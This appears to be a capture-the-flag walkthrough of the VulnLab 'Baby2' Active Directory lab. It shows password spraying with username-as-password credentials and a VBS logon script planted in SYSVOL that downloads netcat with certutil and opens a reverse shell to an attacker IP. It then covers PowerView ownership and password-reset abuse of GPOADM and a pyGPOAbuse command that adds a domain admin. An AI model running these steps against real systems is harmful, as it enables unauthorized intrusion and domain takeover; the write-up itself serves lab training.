VulnLab: Baby2
Access to amelia.griffiths
SMB access

Users found
Amelia.Griffiths
Carl.Moore
Harry.Shaw
Joan.Jennings
Joel.Hurst
Kieran.Mitchell
library
Lynda.Bailey
Mohammed.Harris
Nicola.Lamb
Ryan.Jenkins
Using the usernames as passwords we get a couple hits

library:library
Carl.Moore:Carl.Moore

Apparently we have write access to SYSVOL even though it says we dont.

We can put a reverse shell into a vbs script and upload it. The netlogon script is autorunning login.vbs when someone signs in.
malicious login.vbs script
└─$ cat login.vbsSet oShell = CreateObject("Wscript.Shell")oShell.run "cmd.exe /c mkdir C:\Temp"oShell.run "cmd.exe /c certutil -urlcache -f http://10.8.5.199:80/nc.exe C:\Temp\nc.exe"oShell.run "cmd.exe /c C:\Temp\nc.exe 10.8.5.199 443 -e cmd.exe"
Once done we get a reverse shell from amelia.griffiths

Access as GPOADMIN
$Cred = New-Object System.Management.Automation.PSCredential('baby2.vl\amelia.griffiths')
Set-DomainObjectOwner -Identity GPOADM -OwnerIdentity amelia.griffiths
Add-DomainObjectAcl -TargetIdentity GPOADM -PrincipalIdentity amelia.griffiths -Rights AllSet-DomainUserPassword -Identity GPOADM -AccountPassword $UserPasswordWe have write owner over GPOADM

Write Owner
$Cred = New-Object System.Management.Automation.PSCredential('baby2.vl\amelia.griffiths')Set-DomainObjectOwner -Identity GPOADM -OwnerIdentity amelia.griffithsAdd-DomainObjectAcl -TargetIdentity GPOADM -Rights AllNow that we have all rights over GPOADM we can force password change
Force password change
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -ForceSet-DomainUserPassword -Identity GPOADM -AccountPassword $UserPasswordWe can confirm it works with netexec

Privilege Escalation to Administrator
We have generic all over default domain policy

Abuse info from bloodhound
https://github.com/Hackndo/pyGPOAbuse

This exploit will create a malicious GPO that when ran creates a new admin user named John and with the password H4x00r123..
We first need the gpo-id which we can get from bloodhound

Then we need an ntlm hash. We can use the website below to convert a cleartext password to an lm hash
https://www.browserling.com/tools/ntlm-hash
With this we have everything we need to run the exploit
python3 pygpoabuse.py baby2.vl/GPOADM -hashes :2B576ACBE6BCFDA7294D6BD18041B8FE -gpo-id "31B2F340-016D-11D2-945F-00C04FB984F9"We can confirm it worked by running netexec again

We can now remote in and get the admin flag
evil-winrm -i 10.10.85.232 -u john -p H4x00r123..
